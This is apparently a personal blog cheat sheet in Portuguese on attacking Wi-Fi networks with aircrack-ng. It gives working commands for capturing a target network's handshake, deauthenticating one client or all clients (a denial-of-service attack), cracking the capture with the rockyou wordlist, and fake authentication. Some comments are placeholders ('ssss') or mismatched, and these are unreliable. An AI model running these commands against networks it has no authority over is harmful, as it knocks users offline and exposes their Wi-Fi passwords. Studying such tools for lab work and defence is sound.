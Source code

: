 ```yaml
---
title: "Kali: <i>air</i>"
date: 2019-01-01T00:00:00-03:00
last_modified_at: 2022-06-28T00:00:00-03:00
excerpt_separator: "<!--more-->"
categories:
  - IT
  - Hacks
tags:
  - firma
---
```


## AiroDump

_Sniffing_

Vê os pacotes entre roteadores e devices

Inicialmente vemos as redes possíveis usando o **_AiroDump_**.

```bash
# Scan Networks
sudo airodump-ng  -i wlan0mon
```

<br>

Escolhe uma rede para "snifar".

```bash
# Captura Pacotes (Attack)
sudo airodump-ng --bssid {mac_address} --channel {channel number} --write {filename}  wlan0mon
sudo airodump-ng --bssid 84:93:B2:E2:87:1B --channel 13 --write ~/Downloads/my_network wlan0mon
```

<br>

Utilizando o **_AirePlay_**, em um novo terminal, desautentica!

```bash
# Derruba apenas uma conexão (deautenticate 1)
sudo aireplay-ng --deauth 0 -a 84:93:B2:E2:87:1B -c 34:5D:9E:B2:A4:6D wlan0mon

# Irrestrito... derruba tudo, denial attack (deautenticate 0)
sudo aireplay-ng --deauth 0 -a 84:93:B2:E2:87:1B wlan0mon
```

<br>

Para mais informações

`sudo aireplay-ng --help`

<br>

Usando o **_AirCrack_**, confronta a captura com uma _wordlist_.

```bash
# ssss
aircrack-ng ~/Downloads/my_network-01.cap -w ~/Documents/Datasets/my_hat/rockyou2021.txt
```

<br>

Abre os pacotes no _Wireshark_.

```bash
# Deautenchicate
airmon-ng start wlan0mon 5 # Define o canal que vai operar!
```

```bash
# ssss
sudo aireplay-ng --fakeauth 30 -a {bssid} -h {macid} wlan0
sudo aireplay-ng --fakeauth 30 -a 98:DA:C4:DD:E4:6C -h 98:39:8E:6B:C1:9B wlan0mon
```

<br>

---

## Referências

- [David Bombal: AirCrack](https://www.youtube.com/watch?v=WfYxrLaqlN8)
